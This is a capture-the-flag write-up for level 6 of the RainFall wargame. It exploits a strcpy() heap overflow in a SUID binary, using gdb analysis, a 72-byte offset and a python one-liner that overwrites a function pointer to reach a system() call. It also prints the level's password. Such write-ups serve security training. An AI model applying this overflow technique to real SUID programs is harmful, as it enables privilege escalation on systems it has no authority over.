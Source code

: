 # Level 6

## Vulnerability

strcpy() heap overflow

## Context

We find a binary with owner level7 and SUID.
```
level6@RainFall:~$ ls -l
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```
It segfaults when run without arguments. It replies to random arguments with "Nope".
```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 Would you like to be my friend?
Nope
```

## Solution

Investigating with gdb, we find the main calls function ```m``` which writes "Nope".
```
level6@RainFall:~$ gdb -q level6
...
(gdb) disas main
...
   0x080484a5 <+41>:	mov    $0x8048468,%edx        ; load address of function m
...
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> ; strcpy() argv[1] to 64 byte buffer
...
   0x080484d0 <+84>:	call   *%eax                  ; call function m
...
(gdb) disas m
...
   0x08048475 <+13>:	call   0x8048360 <puts@plt>   ; write "Nope"
```
But we also find a similar uncalled function ```n``` which calls ```system()```, opening a shell and showing the password.
```
(gdb) info functions
...
0x08048454  n
...
(gdb) disas n
...
   0x08048461 <+13>:	call   0x8048370 <system@plt>
```
strcpy() copies argv[1] to a 64 byte buffer on the heap.

Let's try to overflow this buffer and overwrite ```eip``` with the address of ```n```, thereby jump to executing ```n```.

### Find EIP offset

First, using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 72.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
...
0x41346341 in ?? ()
```

### Build exploit string

So we build our exploit string:
1. 72 bytes padding
2. address of ```n``` - "\x54\x84\x04\x08"

Then give the exploit string as argument to the binary
```
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Recreate Exploited Binary

As user ```level7```, in ```/tmp```, create and compile ```level6_source.c```.
```
level7@RainFall:/tmp$ gcc level6_source.c -o level6_source
```
Edit permissions including suid, then move the binary to home directory.
```
level7@RainFall:/tmp$ chmod u+s level6_source; chmod +wx ~; mv level6_source ~
```
Exit back to user ```level6```, then run the source with an updated address of function ```n``` (found with gdb).
```
level7@RainFall:/tmp$ exit
exit
level6@RainFall:~$ /home/user/level7/level6_source $(python -c 'print "A" * 72 + "\x88\x84\x04\x08"')
```
